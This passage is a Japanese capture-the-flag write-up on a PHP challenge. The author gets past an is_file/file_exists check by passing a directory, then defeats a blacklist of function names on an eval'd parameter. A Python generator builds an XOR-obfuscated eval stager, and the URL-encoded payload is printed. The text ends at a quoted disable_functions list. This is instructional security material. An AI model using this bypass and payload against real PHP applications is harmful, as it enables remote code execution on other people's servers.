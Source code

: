 ```php

highlight_file(__FILE__);
?>
```

`is_file($_GET['thisfile'])` が偽で、かつ `file_exists($_GET['this_file'])` が真であれば `check()` を通した後に `$_GET['input']` が `eval` で実行されるようです。まずは `$_GET['thisfile']` をなんとかしていきましょう。

PHP のマニュアルを見てみると、[`is_file`](https://www.php.net/manual/ja/function.is-file.php) は「ファイルが存在し、かつそれが通常のファイルである場合に TRUE、 それ以外の場合に FALSE を返し」、[`file_exists`](https://www.php.net/manual/ja/function.file-exists.php) は「filename で指定したファイルまたはディレクトリが存在すれば TRUE を返し、そうでなければ FALSE を返」すとわかります。後者ではディレクトリであっても存在していれば `TRUE` を返すことを利用して、`thisfile=/` を GET パラメータに追加すると、`You can't use inner file` とも `File doesn't exist` とも表示されず、`check()` によるチェックの部分まで進めたことが確認できました。

`check()` で何がチェックされているか確認しましょう。まず `get_defined_functions()['internal']` の要素についてそれぞれ `$_GET['input']` に含まれていないかチェックし、もし含まれていれば `true` を返す (= `eval` させない) ようです。`$blacklist` については `get_defined_functions()['internal']` の要素として含まれないけれど使ってほしくはない文字列 (言語構造) をチェックするための文字列…のようですが、フィルターを代入した後すぐに `unset($blacklist)` されているので意味がありません。

これで、定義済みの関数の名前さえ含まれていなければ `$_GET['input']` を `eval` してくれるとわかりました。PHP では [`eval`](https://www.php.net/manual/ja/function.eval.php) は言語構造であって `get_defined_functions()['internal']` には含まれないことを利用して、`eval($_GET[0])` に相当する stager 的なコードを書いて `check()` をバイパスしてみましょう。

今回は、

- 未定義の定数は、その定数の名前の文字列として扱われる ([PHP: 構文 - Manual](https://www.php.net/manual/ja/language.constants.syntax.php))
- `^` 演算子は文字列に対して使われた場合、ASCII コード同士を 1 文字ずつ XOR した文字列を返す ([PHP: ビット演算子 - Manual](https://www.php.net/manual/ja/language.operators.bitwise.php))

という PHP の不思議な仕様を利用します。入力したコードを 0xff と XOR した文字列と 0xff を XOR し、これを `eval` に投げる PHP コードを生成してくれる Python スクリプトを書きましょう。

```python
import urllib.parse
code = b'eval($_GET[0]);'
code = bytes(c ^ 0xff for c in code)
code = b'eval(' + code + b'^' + b'\xff' * len(code) + b');'
print(urllib.parse.quote(code))
```

```
$ python generate.py
eval%28%9A%89%9E%93%D7%DB%A0%B8%BA%AB%A4%CF%A2%D6%C4%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%29%3B
```

`input=eval%28%9A%89%9E%93%D7%DB%A0%B8%BA%AB%A4%CF%A2%D6%C4%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%29%3B` と `0=var_dump(1);` を GET パラメータに追加すると `int(1)` と表示され、無事に `eval($_GET[0])` が実行されていることが確認できました。

あとはやるだけ…かと思いきや、`passthru('ls');` を実行してみても何も表示されません。`phpinfo();` で確認してみると、`passthru` が以下のように `disable_functions` で無効化されていました。

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,system,shell_exec,popen,passthru,link,symlink,syslog,imap_open,ld,error_log,mail,file_put_contents,scandir,file_get_contents,readfile,fread,fopen,chdir
```
